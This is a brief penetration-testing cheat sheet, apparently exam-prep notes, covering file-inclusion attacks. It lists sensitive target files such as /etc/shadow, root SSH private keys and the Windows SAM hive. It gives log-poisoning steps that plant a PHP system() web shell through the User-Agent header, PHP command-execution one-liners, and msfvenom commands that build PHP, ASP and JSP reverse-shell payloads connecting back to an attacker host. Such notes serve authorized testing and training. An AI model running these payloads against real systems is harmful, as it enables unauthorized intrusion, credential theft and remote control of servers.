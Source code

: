 ### Interesting Files 
Linux 

    /etc/passwd
    /etc/shadow
    /etc/issue
    /etc/group
    /etc/hostname
    /etc/ssh/ssh_config
    /etc/ssh/sshd_config
    /root/.ssh/id_rsa
    /root/.ssh/authorized_keys
    /home/user/.ssh/authorized_keys
    /home/user/.ssh/id_rsa

Windows 

    /boot.ini
    /autoexec.bat
    /windows/system32/drivers/etc/hosts
    /windows/repair/SAM

Log Poisoning 

	open: /log/apache2/access.log 
	send payload as user agent string: <?php system($_GET['cmd']); ?>    
	/log/apache2/access.log&cmd=id  
	
## Remote File Inclusion 
Turning LFI to RFI: https://l.avala.mp/?p=241
[Reference](https://sushant747.gitbooks.io/total-oscp-guide/content/remote_file_inclusion.html)  

## Web Payloads 

PHP

    <?php echo shell_exec($_GET['cmd']);?> 
    <?php system($_GET['cmd']);?>
    <?php passthru($_GET['cmd']);?>
      
      
    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
    cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
